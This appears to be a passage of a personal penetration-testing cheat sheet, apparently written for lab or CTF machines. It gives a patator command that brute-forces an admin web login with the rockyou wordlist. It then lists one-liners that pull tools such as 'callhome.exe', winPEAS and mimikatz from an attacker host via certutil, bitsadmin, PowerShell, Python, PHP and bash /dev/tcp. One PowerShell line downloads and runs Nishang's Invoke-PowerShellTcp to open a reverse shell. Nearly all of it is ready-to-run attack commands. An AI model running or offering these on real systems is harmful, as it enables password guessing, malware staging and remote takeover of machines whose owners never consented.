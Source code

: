 `patator http_fuzz method=POST --threads=1 timeout=5 url="http://10.11.2.245/index.php" body="__csrf_magic=_CSRF_&action=login&login_username=admin&login_password=COMBO00" 0=/usr/share/wordlists/rockyou.txt before_urls="http://10.11.2.245" before_egrep='_CSRF_:var csrfMagicToken = "([^\"]+)";' -x ignore:fgrep='Invalid' proxy="http://127.0.0.1:8080"`

## Downloading files with windows (or linux missing curl/wget)

without the use of powershell or anything clever. great for pulling files off my attacker machine

```
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/callhome.exe" callhome.exe
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/callhome2.exe" callhome2.exe
certutil.exe -urlcache -split -f "http://10.10.139.149:8000/winPEAS.bat" winPEAS.bat
```

bitsadmin approach:

```
bitsadmin.exe /transfer /Download /priority Foreground https://downloadsrv/10mb.zip c:\\10mb.zip
```

with powershell (first also invokes a script, in this case Invoke-PowerShellTcp from Nishang):

`println "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.100.16:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.100.16 -Port 4444".execute().text`

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.139.149:8000/callhome.exe','callhome.exe')"`

or more simply, in powershell:

`Invoke-WebRequest -Uri $url -OutFile $output`

using python (if you have it):

`c:\Python27\python.exe -c "import urllib; print urllib.urlopen('http://10.10.50.123:8000/mimikatz_trunk.zip').read()" > mimikatz_trunk.zip`

with php:

`php -r "file_put_contents('/tmp/ncat', file_get_contents('http://10.10.32.12:1234/ncat'));"`

pure bash:

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```
